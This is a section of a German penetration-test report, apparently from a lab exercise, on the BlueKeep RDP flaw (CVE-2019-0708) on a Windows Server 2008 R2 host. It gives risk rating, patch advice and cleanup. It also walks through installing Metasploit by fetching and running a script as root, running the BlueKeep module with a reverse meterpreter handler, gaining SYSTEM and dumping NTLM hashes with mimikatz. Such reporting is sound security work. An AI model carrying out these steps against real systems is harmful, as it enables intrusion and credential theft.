\section{Schwachstelle 10: RDP Bluekeep-Verwundbarkeit bei Esperanza}
\label{sec:vuln10}
Der Windows Server 2008 R2 Standard Host \texttt{Esperanza} ist aufgrund einer veralteten Version verwundbar gegen die \texttt{Bluekeep (CVE-2019-0708)} Schwachstelle und wurde am 14. Mai 2019 bekannt und mit dem CVSS 3.0 Basiswert 9,8 bewertet. Diese Schwachstelle ermöglicht einem nicht authentifizierten und entfernten Angreifer SYSTEM-Berechtigungen auf das Zielsystem zu erlangen. Darüber hinaus ist das System über die gleiche Schwachstelle für einen DOS-Angriff anfällig, bei dem es zu einem System-Absturz und somit zu einem Neustart des Systems kommt.

\subsection{Beschreibung der Schwachstelle}
\label{subsec:vuln10_way}

Da für die erfolgreiche Ausführung des Exploits, welcher auf einem zeitkritischen Use-After-Free Fehler basiert, keine getunnelten bzw. über Metasploit-Routen durchgeführten Angriffe funktionieren, wurde wie in Textauszug \ref{lst:vuln10_install_msf} dargestellt, das Metasploit-Framework auf dem Host \texttt{BigCindy} unter Root-Berechtigungen nachinstalliert. Da \texttt{BigCindy} und \texttt{Esperanza} sich im selben Subnetz befinden und über eine schnelle Netzwerkverbindung angebunden sind, ist die Ausnutzung des zeitkritischen Use-After-Free-Fehlers möglich. Es sei allerdings an dieser Stelle darauf hingewiesen, dass die Ausführung des Exploits nicht immer die Meterpreter-Payload  ausführt und gegebenenfalls für die erfolgreiche Kompromittierung das Metasploit-Modul öfters ausgeführt werden muss.

\lstset{language=bash,caption={Installation des Metasploit-Frameworks auf \texttt{BigCindy}}, label=lst:vuln10_install_msf}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
root@bigcindy:/home/myron# wget --no-check-certificate https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb
    [... Ausgabe gekürzt ...]
    
HTTP request sent, awaiting response... 200 OK
Length: 6034 (5.9K) [text/plain]
Saving to: 'msfupdate.erb'

msfupdate.erb       100%[===================>]   5.89K  --.-KB/s    in 0.05s   

2022-03-02 14:16:22 (126 KB/s) - 'msfupdate.erb' saved [6034/6034]

root@bigcindy:/home/myron# mv msfupdate.erb msfinstall
mv msfupdate.erb msfinstall
root@bigcindy:/home/myron# chmod 755 msfinstall
chmod 755 msfinstall
root@bigcindy:/home/myron# ./msfinstall
    [... Ausgabe der Metasploit-Installation gekürzt ...]
\end{lstlisting} 

Nach der Installation kann Metasploit mit dem Befehl \texttt{msfconsole -q} auf dem Host \texttt{BigCindy} gestartet werden. Zur Ausnutzung der Bluekeep-Schwachstelle muss anschließend das entsprechende Metasploit-Modul mit dem Befehl \texttt{use exploit/windows/rdp/cve\_2019\_0708\_bluekeep\_rce} ausgewählt werden. Abbildung \ref{fig:vuln10_msf_bluekeep_config} zeigt die Konfiguration und Ausführung des Metasploit-Moduls. Um alle Meterpreter-Sitzungen anstelle über \texttt{BigCindy} über den Kali-Host zu verwalten, wurde vor Ausführung des Bluekeep-Exploits mit dem Befehl \texttt{handler -p windows/x64/meterpreter/reverse\_tcp -H tap0 -P 443} ein Windows-Handler auf Port 443 innerhalb der Metasploit-Sitzung der Kali-VM (Achtung: nicht BigCindy) gestartet. Es wird daher darauf hingewiesen, dass als Listener-Adresse der Meterpreter-Payload die IP-Adresse der Kali-VM und nicht die IP-Adresse von \texttt{BigCindy} verwendet und somit auch der Start des Payload-Listener bei \texttt{BigCindy} deaktiviert wurde. 

\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln10_esperanza/msf_bluekeep_settings_and_exploit}
    \caption{Ausführung des Blueekeep-Exploits innerhalb der Metasploit-Sitzung von \texttt{BigCindy}.}
    \label{fig:vuln10_msf_bluekeep_config}
\end{figure}

Anschließend wurde nach (gegebenenfalls mehrmaliger) Ausführung des Metasploit-Moduls innerhalb Metasploit auf \texttt{BigCindy} eine Meterpreter-Sitzung bei der Kali-VM  des Angreifers erhalten. Textauszug \ref{fig:vuln10_msf_esperanza_hashdump} zeigt, dass die Sitzung mit \texttt{SYSTEM}-Berechtigungen gestartet wurde. Es sei an dieser Stelle angemerkt, dass damit ein Angreifer das System beliebig unter Kontrolle hat. So könnte zum Beispiel ein neuer Benutzer zum System hinzugefügt oder das Passwort des Administrator-Accounts geändert werden. Aufgrund der Spurenvermeidung, wurde sich gegen diesen Ansatz entschieden. Die Abbildung zeigt deshalb die Extraktion der NTLM-Hashwerte aus dem Hauptspeicher des \texttt{Esperanza}-Hosts, welche mit dem Tool-Mimikatz (über das \texttt{kiwi}-Plugin innerhalb Metasploit) durchgeführt wurde.


\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln10_esperanza/msf_esperanza_hashdump}
    \caption{Erhalt der SYSTEM-Berechtigung und Extraktion der NTLM-Hashwerte.}
    \label{fig:vuln10_msf_esperanza_hashdump}
\end{figure}

Die Abbildung zeigt ferner, dass neben dem Standard-Administrator-Konto (\texttt{Administrator}) auch der Benutzer \texttt{Lightman} existiert. 


\subsection{Risikobewertung}
Da die Schwachstelle bei CVSS3.0 mit 9,8 bewertet wurde und es einem entfernten Angreifer ohne Authentifizierung ermöglicht, eine Reverse-Shell zu erhalten und im Internet öffentliche Exploit-Codes seit einigen Jahren verfügbar sind, wird die Eintrittswahrscheinlichekit mit HOCH bewertet. Da der Host \texttt{Esperanza} mit dem internen Netzwerk verbunden ist, können neben einem Innentäter auch externe Angreifer, welche die Schwachstelle 1 und Schwachstelle 7 ausgenutzt haben die BlueKeep-Schwachstelle ausnutzen. Da durch die Ausnutzung der Schwachstelle \texttt{SYSTEM}-Berechtigungen erlangt werden können und darüber hinaus auch ein DOS-Angriffe ausgeführt werden kann, wird die Schadenshöhe ebenfalls mit HOCH bewertet.

Das Gesamtrisiko wurde daher mit \textcolor{red}{HOCH} bewertet.

\subsection{Empfohlene Gegenmaßnahmen}
Es wird empfohlen das Betriebssystem umgehend auf die neueste Version zu aktualisieren.

\subsection{Hinterlassene Spuren und Spurenbeseitigung}
Nach Durchführung des Penetrations-Test wurde das Metasploit-Framework auf \texttt{BigCindy} mit dem Befehl \texttt{exit -y} beendet und anschließend mit dem Befehl \texttt{rm -rf /opt/metasploit} entfernt.





